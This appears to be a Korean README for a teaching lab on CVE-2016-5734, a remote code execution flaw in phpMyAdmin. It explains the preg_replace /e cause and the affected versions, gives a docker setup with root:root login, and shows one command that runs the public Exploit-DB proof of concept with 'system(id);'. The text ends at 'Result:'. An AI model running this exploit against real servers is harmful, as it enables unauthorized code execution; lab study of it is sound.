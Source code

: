 # CVE-2016-5734 | PhpMyAdmin 4.0.x—4.6.2 Remote Code Execution(원격 코드 실행) 취약점

> 화이트햇 스쿨 3기 (6반) - [임건형 (@lghz)](https://github.com/lghz)

[중국어 버전(Chinese version)](README.zh-cn.md)

<br/>

PhpMyAdmin은 PHP로 작성된 무료 소프트웨어 도구로, 웹을 통해 MySQL 관리를 처리하기 위해 만들어졌습니다. 취약점은 preg_replace 함수에 있으며, 사용자가 제출한 정보가 첫 번째 매개변수에 삽입될 수 있기 때문입니다.

PHP 5.4.7 이전 버전에서는 preg_replace의 첫 번째 매개변수가 \0으로 잘려나갈 수 있었고, 검색 패턴이 \e로 변경될 수 있었습니다. 이로 인해 원격 코드 실행 취약점이 발생할 수 있습니다.

영향을 받는 버전:

4.0.x 버전 중 4.0.10.16 이전 버전

4.4.x 버전 중 4.4.15.7 이전 버전

4.6.x 버전 중 4.6.3 이전 버전 (사실 이 버전은 PHP 5.5 이상을 요구하므로, 이 취약점은 재현되지 않습니다)

<br/>

## 설정

다음 명령어를 실행하여 PHP 5.3 + Apache + phpMyAdmin 4.4.15.6 환경을 시작하세요:

```
docker compose up -d 
```

시작한 후 http://your-ip:8080에 접속하면 phpMyAdmin 로그인 페이지가 나타납니다.
root:root 계정으로 로그인하세요.

</br>

## 익스플로잇

이 취약점을 이용하려면 로그인과 데이터 쓰기 권한이 필요합니다.

우리는 이 POC(https://www.exploit-db.com/exploits/40185/)를 사용하여 취약점을 재현합니다.

```
./cve-2016-5734.py -c 'system(id);' -u root -p root -d test http://your-ip:8080/
```

Result:
